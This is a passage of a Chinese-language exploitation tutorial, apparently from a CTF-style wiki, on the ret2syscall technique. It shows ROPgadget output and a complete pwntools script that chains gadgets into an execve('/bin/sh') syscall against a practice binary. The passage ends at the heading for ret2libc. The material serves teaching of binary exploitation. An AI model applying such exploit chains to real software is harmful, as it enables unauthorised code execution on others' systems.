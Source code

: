 這裏，我選擇

```text
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

這個可以直接控制其它三個寄存器。

此外，我們需要獲得 /bin/sh 字符串對應的地址。

```shell
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到對應的地址，此外，還有 int 0x80 的地址，如下

```text
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

同時，也找到對應的地址了。

下面就是對應的 payload，其中 0xb 爲 execve 對應的系統調用號。

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```

### 題目

## ret2libc

### 原理
